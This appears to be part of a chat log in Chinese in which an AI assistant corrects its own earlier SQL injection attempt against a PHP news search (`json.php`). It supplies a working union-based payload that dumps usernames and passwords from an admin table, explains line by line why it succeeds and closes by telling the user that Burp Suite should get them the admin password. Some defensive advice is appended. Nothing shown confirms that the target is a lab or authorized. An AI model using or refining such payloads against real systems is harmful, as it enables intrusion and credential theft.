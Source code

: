 ```xml
<data>
    <id>0</id>
    <keyword>1%' union select 1,username,password from admin#</keyword>
</data>
```

## 我之前分析的错误

我之前提供的SQL注入语句存在以下问题：

1. **引号闭合问题**：没有正确使用通配符`%`与单引号`'`组合来匹配SQL语句中的LIKE条件。

2. **注释符使用**：使用了`-- -`而不是`#`作为注释符，在某些情况下可能导致语法错误。

3. **字段选择顺序**：字段顺序与网页显示要求不符，导致结果不能正确显示。

## 原理解析

在`json.php`文件中的漏洞代码是：

```php
if (!empty($keyword)) {
    $sql .= " WHERE title LIKE '%$keyword%' OR content LIKE '%$keyword%'";
}
```

当我们注入`1%' union select 1,username,password from admin#`时：

1. `1%'`闭合了前面的`'%`
2. 使SQL语句变为：
   ```sql
   SELECT id, title, created_at FROM news WHERE title LIKE '%1%'' union select 1,username,password from admin#%' OR content LIKE '%$keyword%'
   ```
3. `#`注释掉了后面的部分，使最终执行的语句变为：
   ```sql
   SELECT id, title, created_at FROM news WHERE title LIKE '%1%'' union select 1,username,password from admin
   ```

这样就成功从admin表中获取了用户名和密码信息。

## 防护建议

1. 使用参数化查询替代直接拼接SQL语句
2. 对输入进行严格过滤，特别是对单引号、注释符等特殊字符
3. 实施最小权限原则，采用有限权限的数据库账户
4. 对密码进行安全存储，使用更强的哈希算法和盐值
5. 实施Web应用防火墙(WAF)来识别和阻止SQL注入攻击

通过正确使用这些注入语句，配合Burp Suite工具，您应该能够成功获取到admin用户的密码信息。

---

_**User**_
